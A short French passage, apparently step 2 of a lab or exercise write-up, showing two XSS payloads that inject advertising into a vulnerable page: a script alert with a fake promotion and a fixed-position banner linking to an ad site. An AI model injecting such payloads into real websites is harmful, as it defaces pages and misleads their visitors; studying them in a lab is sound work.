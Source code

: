 ## Etape 2 : Exploitation des vulnérabilités XSS pour afficher publicité

```js
// Payload 1 - Popup publicitaire :
<script>alert('🎉 PROMO EXCEPTIONNELLE ! -50% sur tous les produits ! Cliquez OK pour en profiter !');</script>

//Payload 2 - Bannière publicitaire :
<div style="position:fixed;top:0;left:0;width:100%;background:red;color:white;text-align:center;z-index:9999;padding:10px;">🔥 OFFRE LIMITÉE ! Visitez www.promo-site.com 🔥</div>
```
